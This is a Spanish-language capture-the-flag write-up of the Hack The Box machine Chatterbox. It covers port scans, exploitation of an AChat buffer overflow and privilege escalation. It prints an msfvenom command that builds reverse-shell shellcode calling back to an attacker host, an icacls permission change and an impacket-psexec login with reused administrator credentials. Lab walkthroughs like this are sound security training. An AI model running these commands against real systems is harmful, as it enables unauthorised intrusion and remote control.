 # Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Chatterbox](https://www.hackthebox.com/home/machines/profile/123) |
| OS | Windows |
| Dificultad oficial | Medium |
| Dificultad de comunidad | ![Dificultad](images/difficulty.png) |
| Puntos | 30 |
| Creadores | [lkys37en](https://www.hackthebox.com/home/users/profile/709) |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
└─$ nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-27 13:36 EDT
Initiating Connect Scan at 13:36
Scanning 10.10.10.74 [65535 ports]
Discovered open port 135/tcp on 10.10.10.74
Discovered open port 139/tcp on 10.10.10.74
Discovered open port 445/tcp on 10.10.10.74
Discovered open port 49152/tcp on 10.10.10.74
Discovered open port 49154/tcp on 10.10.10.74
Discovered open port 9256/tcp on 10.10.10.74
Discovered open port 49153/tcp on 10.10.10.74
Discovered open port 9255/tcp on 10.10.10.74
Discovered open port 49155/tcp on 10.10.10.74
Discovered open port 49157/tcp on 10.10.10.74
Discovered open port 49156/tcp on 10.10.10.74
Completed Connect Scan at 13:37, 29.11s elapsed (65535 total ports)
Nmap scan report for 10.10.10.74
Host is up, received user-set (0.073s latency).
Scanned at 2022-05-27 13:36:42 EDT for 29s
Not shown: 54223 closed tcp ports (conn-refused), 11301 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
9255/tcp  open  mon          syn-ack
9256/tcp  open  unknown      syn-ack
49152/tcp open  unknown      syn-ack
49153/tcp open  unknown      syn-ack
49154/tcp open  unknown      syn-ack
49155/tcp open  unknown      syn-ack
49156/tcp open  unknown      syn-ack
49157/tcp open  unknown      syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 29.15 seconds
```

### Escaneo específico

```bash
└─$ nmap -sCV -p 135,139,445,9255,9256,49152,49153,49154,49155,49156,49157 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-27 13:39 EDT
Nmap scan report for 10.10.10.74
Host is up (0.074s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h20m01s, deviation: 2h18m36s, median: 4h59m59s
| smb2-time:
|   date: 2022-05-27T22:40:43
|_  start_date: 2022-05-27T22:34:47
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-27T18:40:47-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.63 seconds
```

# Enumeración

## Servicios

### achat - 9255, 9256

#### Manual

Al buscar hacer un reconocimiento directamente por alguna versión vulnerable se encontró [este repositorio en github](https://github.com/mpgn/AChat-Reverse-TCP-Exploit) de una prueba de concepto sobre la explotación del programa, probado en su versión y arquitectura `AChat 0.150 Beta 7 Windows 7/8/10 x86/x64`. Por lo que directamente se probó el exploit.

# Explotación

## Buffer Overflow - RCE

### Pasos previos | Preparación

Dadas las indicaciones en la PoC se generó el shellcode correspondiente usando `msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp RHOST=$RHOST LHOST=10.10.14.16 LPORT=4321 exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > scode.txt`

Sustituyendo los valores correspondientes en el script del shellcode y host.

### Ejecución

Obteniendo acceso como el usuario `alfred`.

![Acceso como usuario alfred](images/exploit_1.png)

# Post Explotación

## Enumeración

Posteriormente al ejecutar [winPEAS](https://github.com/carlospolop/PEASS-ng), se identificaron dos rutas potenciales a probar:

1. El usuario con el que se cuenta (alfred) tiene acceso completo al directorio del usuario Administrator.
2. Existen credenciales AutoLogon visibles.

![Rutas potenciales](images/post_1.png)

## Escalación de privilegios

### alfred &rarr; nt authority system

En el primer caso, bastaría con leer, escribir o ejecutar cualquier archivo dentro del directorio, si llegara a suceder que no se permite el acceso a un archivo bastaría con hacer uso de `icacls` para efectuar el cambio de permisos lo cual por herencia o jerarquía del directorio, se permitiría este cambio pudiendo así leer la bandera de `root.txt`.

Por medio de `icacls .\root.txt /e /p alfred:f`, tomando como referencia [este post](https://www.cyberciti.biz/tips/windows-change-access-permissions-from-the-command-line.html) para verificar el uso del binario.

![Cambio de permisos](images/post_2.png)

En el segundo caso, al probar alguna herramienta que permita acceso al sistema con credenciales como `psexec` se puede obtener una shell como `NT AUTHORITY SYSTEM`, probando las credenciales obtenidas anteriormente bajo la suposición de reutilización de contraseña.

Ejecutando `impacket-psexec 'Administrator:Welcome1!@10.10.10.74'`.

![Acceso como nt authority system](images/post_3.png)

# Referencias

- [AChat expoit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit).
- [Windows change access permissions from the command line](https://www.cyberciti.biz/tips/windows-change-access-permissions-from-the-command-line.html).
